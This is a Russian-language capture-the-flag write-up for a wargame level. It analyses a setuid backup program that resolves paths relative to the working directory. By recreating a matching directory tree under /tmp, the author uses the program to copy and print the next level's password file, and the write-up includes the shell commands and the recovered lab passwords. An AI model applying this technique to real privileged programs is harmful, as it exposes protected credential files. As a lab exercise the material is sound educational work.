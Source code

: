 ## HowTo

```
> su level08
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

### Инструменты:
- Ida Pro + hex rays

**NB:** Для работы с файлом стягиваем его на локальную машину

### Анализ и ход решения

Задача сводится к пониманию проблемы использования не абсолютных путей

 - программа ожидает на вход путь к файлу
 - на старте помимо проверки аргумента, происходит попытка открыть файл `./backups/.log` в `'w'`. Ошибка приводит к выходу
 - затем открывается файл из аргумента, содержимое читается в буфер, после чего записывается в бэкап `./backups/_target_file_name`

Решение кажется тривиальным - воспользуемся директорией `/tmp` для создания нужной нам структуры директорий.
Наша цель - сделать бэкап файла `/home/users/level09/.pass` в `/tmp/backups/home/users/level09/.pass`

1. Проведем эксперимент

```bash
> cd /tmp
> echo "Hello World!" -> test.txt
> mkdir backups
> /home/users/level08/level08 ./test.txt
> cat ./backups/test.txt
Hello World!
```
2. Если на шаге запуска мы передадим абсолютный путь - `/tmp/test.txt`, получим примерно такую ошибку:
> ERROR: Failed to open ./backups//tmp/test.txt

Несложно догадаться, что для решения проблемы нам нужно вточности повторить в нашей директории `/tmp/backups/` структуру директрий вызываемого файла

3. Делаем бэкап файла с паролем
```bash
> cd /tmp
> mkdir backups
> mkdir backups/home
> mkdir backups/home/users
> mkdir backups/home/users/level09
> /home/users/level08/level08 /home/users/level09/.pass
> cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
